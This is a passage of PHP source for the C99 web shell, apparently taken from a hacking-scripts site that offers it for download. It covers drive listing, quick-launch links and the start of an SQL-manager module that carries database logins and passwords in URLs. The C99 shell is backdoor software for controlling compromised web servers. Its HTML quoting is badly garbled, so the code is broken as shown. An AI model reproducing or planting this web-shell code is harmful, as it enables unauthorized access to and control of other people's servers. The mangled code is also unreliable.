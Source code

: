  $bool = $isdiskette = in_array($letter,$safemode_diskettes);
 if (!$bool) {$bool = is_dir($letter.":\\");}
 if ($bool)
 {
 $letters .= "&lt;a onclick="\&quot;return" href="\&quot;&quot;.$surl.&quot;act=ls&d=&quot;.urlencode($letter.&quot;:\\&quot;).&quot;\&quot;&quot;.($isdiskette?&quot;"&gt;[ ";
 if ($letter.":" != $v) {$letters .= $letter;}
 else {$letters .= "&lt;span style="color: green;"&gt;".$letter."&lt;/span&gt;";}
 $letters .= " ]&lt;/a&gt; ";
 }
 }
 if (!empty($letters)) {echo "&lt;b&gt;Detected drives&lt;/b&gt;: ".$letters."
";}
}
if (count($quicklaunch) &gt; 0)
{
 foreach($quicklaunch as $item)
 {
 $item[1] = str_replace("%d",urlencode($d),$item[1]);
 $item[1] = str_replace("%sort",$sort,$item[1]);
 $v = realpath($d."..");
 if (empty($v)) {$a = explode(DIRECTORY_SEPARATOR,$d); unset($a[count($a)-2]); $v = join(DIRECTORY_SEPARATOR,$a);}
 $item[1] = str_replace("%upd",urlencode($v),$item[1]);
 echo "&lt;a href="\&quot;&quot;.$item[1].&quot;\&quot;"&gt;".$item[0]."&lt;/a&gt;    ";
 }
}
echo "


";
if ((!empty($donated_html)) and (in_array($act,$donated_act))) {echo "&lt;/pre&gt;
&lt;table width="\&quot;100%\&quot;" border="1" cellspacing="0" cellpadding="5" bgcolor="#333333"&gt;
&lt;tbody&gt;
&lt;tr&gt;
&lt;td valign="\&quot;top\&quot;" width="\&quot;100%\&quot;"&gt;".$donated_html."&lt;/td&gt;
&lt;/tr&gt;
&lt;/tbody&gt;
&lt;/table&gt;
&lt;pre&gt;

";}
echo "&lt;/pre&gt;
&lt;table width="\&quot;100%\&quot;" border="1" cellspacing="0" cellpadding="5" bgcolor="#333333"&gt;
&lt;tbody&gt;
&lt;tr&gt;
&lt;td valign="\&quot;top\&quot;" width="\&quot;100%\&quot;"&gt;";
if ($act == "") {$act = $dspact = "ls";}
if ($act == "sql")
{
 $sql_surl = $surl."act=sql";
 if ($sql_login) {$sql_surl .= "&sql_login=".htmlspecialchars($sql_login);}
 if ($sql_passwd) {$sql_surl .= "&sql_passwd=".htmlspecialchars($sql_passwd);}
 if ($sql_server) {$sql_surl .= "&sql_server=".htmlspecialchars($sql_server);}
 if ($sql_port) {$sql_surl .= "&sql_port=".htmlspecialchars($sql_port);}
 if ($sql_db) {$sql_surl .= "&sql_db=".htmlspecialchars($sql_db);}
 $sql_surl .= "&";
 ?&gt;
&lt;h3&gt;Attention! SQL-Manager is &lt;span style="text-decoration: underline;"&gt;NOT&lt;/span&gt; ready module! Don't reports bugs.&lt;/h3&gt;
"; if (!$sql_sock) {?&gt;
&lt;table style="border-collapse: collapse;" width="100%" border="1" cellspacing="0" cellpadding="5" bgcolor="#333333"&gt;

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png